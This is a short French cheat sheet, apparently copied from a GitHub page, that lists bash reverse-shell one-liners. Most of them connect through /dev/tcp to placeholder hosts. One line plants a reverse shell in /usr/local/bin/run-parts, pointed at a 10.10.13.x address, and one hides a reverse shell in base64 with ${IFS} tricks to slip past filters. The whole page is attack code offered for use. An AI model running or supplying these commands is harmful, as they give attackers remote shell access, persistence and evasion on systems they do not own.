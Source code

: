 # bash reverseshell

### Certaines versions de Bash permettent de transmettre un reverse-shell  via « /dev/tcp/ » ou « /dev/udp/ » (version compilée avec le drapeau  « –enable-net-redirections »).

bash -i >& /dev/tcp/<IP>/<PORT> 0>&1

exec 5<>/dev/tcp/<IP>/<PORT>;cat <&5 | while read line; do $line 2>&5 >&5; done

exec /bin/sh 0</dev/tcp/<IP>/<PORT> 1>&0 2>&0

0<&196;exec 196<>/dev/tcp/<IP>/<PORT>; sh <&196 >&196 2>&196


## le meilleur:

echo "/bin/bash -c 'bash -i >& /dev/tcp/<IP>/<PORT> 0>&1'" >  file 

echo "/bin/bash -c 'bash -i >& /dev/tcp/10.10.13.131/443 0>&1'" > /usr/local/bin/run-parts

### obfuscation base 64: (bash -i >& /dev/tcp/10.10.13.25/443 0>&1)
'echo${IFS}YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xMy4yNS80NDMgMD4mMQ==|base64${IFS}-d|bash;'

